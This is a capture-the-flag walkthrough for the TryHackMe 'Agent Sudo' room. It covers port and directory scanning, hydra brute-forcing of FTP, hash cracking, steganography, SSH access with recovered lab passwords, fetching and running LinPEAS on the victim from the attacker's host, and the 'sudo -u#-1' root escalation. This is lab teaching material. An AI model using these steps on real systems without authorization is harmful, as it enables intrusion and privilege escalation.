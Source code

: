 # Agent Sudo

**Room Link:** [https://tryhackme.com/room/agentsudoctf](https://tryhackme.com/room/agentsudoctf)



## Enumerate

```
nmap -A $VICTIM
```

<figure><img src="../../.gitbook/assets/image (3) (1).png" alt=""><figcaption></figcaption></figure>

```
nmap -p- $VICTIM
```

### TCP/80 - HTTP

```
gobuster dir -u http://$VICTIM -w /usr/share/wordlists/SecLists/Discovery/Web-Content/directory-list-2.3-medium.txt -x php,html,txt 
```

<figure><img src="../../.gitbook/assets/image (37) (4).png" alt=""><figcaption></figcaption></figure>







<figure><img src="../../.gitbook/assets/image (77).png" alt=""><figcaption></figcaption></figure>

### Burp

Change the user-agent to C

**From**

<figure><img src="../../.gitbook/assets/image (65).png" alt=""><figcaption></figcaption></figure>

**To**

<figure><img src="../../.gitbook/assets/image (84).png" alt=""><figcaption></figcaption></figure>





<figure><img src="../../.gitbook/assets/image (83) (4).png" alt=""><figcaption></figcaption></figure>

## Hash cracking and brute-force

### TCP/21 - FTP&#x20;

**Kali**

```
hydra -l chris -P /usr/share/wordlists/SecLists/Passwords/Common-Credentials/10-million-password-list-top-1000.txt ftp://$VICTIM
```

<figure><img src="../../.gitbook/assets/image (66).png" alt=""><figcaption></figcaption></figure>

**Kali**

```
ftp $VICTIM
Username: chris
Password: crystal
```

<figure><img src="../../.gitbook/assets/image (2) (9).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/image (41) (4).png" alt=""><figcaption></figcaption></figure>

**Kali**

```
binwalk cutie.png 
binwalk cutie.png -e
```

<figure><img src="../../.gitbook/assets/image (141).png" alt=""><figcaption></figcaption></figure>

**Kali**

```
zip2john 8702.zip > secure_john.txt
john --wordlist=/usr/share/wordlists/rockyou.txt secure_john.txt 
```

<figure><img src="../../.gitbook/assets/image (59) (2).png" alt=""><figcaption></figcaption></figure>

**Kali**

```
7z e 8702.zip
Password: alien
```

<figure><img src="../../.gitbook/assets/image (71).png" alt=""><figcaption></figcaption></figure>

### Cyber Chef

Link: [https://gchq.github.io/CyberChef/](https://gchq.github.io/CyberChef/)

<figure><img src="../../.gitbook/assets/image (58) (1).png" alt=""><figcaption></figcaption></figure>

**Kali**

```
steghide extract -sf cute-alien.jpg
Password: Alien51
```

<figure><img src="../../.gitbook/assets/image (109).png" alt=""><figcaption></figcaption></figure>

**Kali**

```
ssh james@$VICTIM
Password: hackerrules!
```

**Victim**

```
ls
```

<figure><img src="../../.gitbook/assets/image (67).png" alt=""><figcaption></figcaption></figure>

**Kali**

```
scp james@$VICTIM:/home/james/Alien_autospy.jpg .
```

### LinPeas

Linpeas found that sudo is vulnerable, so I looked at the version online and found a way to escalate my privilege's.&#x20;

**Kali**

```
wget https://github.com/carlospolop/PEASS-ng/releases/latest/download/linpeas.sh | sh
python2 -m SimpleHTTPServer 81
```

**Victim**

```
cd /tmp/
wget http://$KALI:81/linpeas.sh
chmod +x linpeas.sh 
./linpeas.sh
```

<figure><img src="../../.gitbook/assets/image (87).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/image (69).png" alt=""><figcaption></figcaption></figure>

## **Privilege Escalation**

**Link:** [https://www.exploit-db.com/exploits/47502](https://www.exploit-db.com/exploits/47502)

**Victim**

```
sudo -u#-1 /bin/bash
```

<figure><img src="../../.gitbook/assets/image (94).png" alt=""><figcaption></figcaption></figure>





















